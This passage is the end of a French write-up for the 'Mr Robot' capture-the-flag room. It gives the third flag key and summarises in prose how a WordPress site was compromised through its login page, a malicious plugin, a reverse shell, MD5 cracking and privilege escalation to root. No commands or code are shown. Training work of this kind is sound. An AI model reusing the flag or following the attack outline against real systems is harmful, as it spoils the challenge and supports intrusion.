Parfait ! Nous avons maintenant réussi à mettre à niveau nos privilèges et obtenu un accès root à la machine cible 🥳

La 3ème clé est : `04787ddef27c3dee1ee161b21670b4e4`

Félicitations pour avoir terminé la room Mr Robot !

## Conclusion

Cette room concernait l'exploitation d'un site web WordPress vulnérable via la page de connexion WordPress. Ensuite, nous avons réussi à envoyer/exécuter un plugin malveillant à l'intérieur du site web WordPress. Après avoir obtenu un reverse shell sur la machine cible, nous avons récupéré et cracké un hash MD5 d'un utilisateur en utilisant JohnTheRipper. Enfin, nous avons réussi à obtenir des privilèges root sur la machine cible.

À travers cette room, j'ai compris à quel point il est important d'utiliser un mot de passe fort et de maintenir les services utilisés à jour. Cela m'a également aidé à acquérir plus de connaissances pratiques en matière de pentest Web (dumoins sur WordPress).

## Remerciements

Si vous êtes arrivé jusqu'ici — merci ! Le partage des connaissances est ce qui rend la communauté CTF vraiment géniale.

J'espère que ce write-up a été utile ou au moins intéressant. Et souvenez-vous :

*Every vulnerability is a lesson in disguise—the more we break, the more we understand how to build.*